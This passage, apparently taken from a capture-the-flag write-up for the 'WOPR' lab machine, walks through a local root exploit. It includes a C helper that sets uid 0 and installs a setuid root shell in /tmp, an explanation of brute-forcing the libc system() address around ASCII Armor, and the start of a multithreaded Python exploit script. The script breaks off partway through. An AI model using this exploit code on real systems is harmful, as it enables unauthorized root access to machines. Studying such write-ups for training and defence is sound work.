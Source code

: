 ```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
 setuid( 0 );
 system("cp /tmp/exploit/rootshell /tmp/rs");
 system( "chmod 4755 /tmp/rs");
 return 0;
}
```

Log.c should be placed in /tmp/ and compiled with **gcc log.c -o log**

![wopr-log-compile.png](/assets/img/wopr/wopr-log-compile.png)

We have one last obstacle in our way, as ASCII Armor is changing the addresses of the libc
functions, there is no way to guarantee that we will receive the same address as the root
user, so just to make sure we will partially brute force the system() address , one thing we
can rely on is the address will start with 0x00 thanks to ASCII Armor, so I will go with brute
forcing the last 2 bytes of the address. Brute forcing addresses can take quite a long time so
to speed things up I decided to make my PoC multithreaded, I added a mechanism to check
if /tmp/rs has been created to stop the brute force.

We start with the base address of 0x0016 and then try every possible combination of 0x00-
0xff for the second and third byte of the address. Here is the source code for exploit.py that
I used to get root:

```python
#!/usr/bin/env python
from threading import Thread
import thread
from Queue import Queue
import socket
import sys
import os


#globals, y0
concurrent = 20
global target
global port
fp=open("payload.txt", "r")
filepayload = fp.readline()

def sendRequest(target, port, payload):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	try:
				s.connect((target, port))
				done = False
				while done == False:
					response=s.recv(1024)
					if ">" in response:
						s.send(payload)
						result = ""
						result =  s.recv(1024)
						result = result.strip() +  s.recv(1024)
						result = result.strip()
```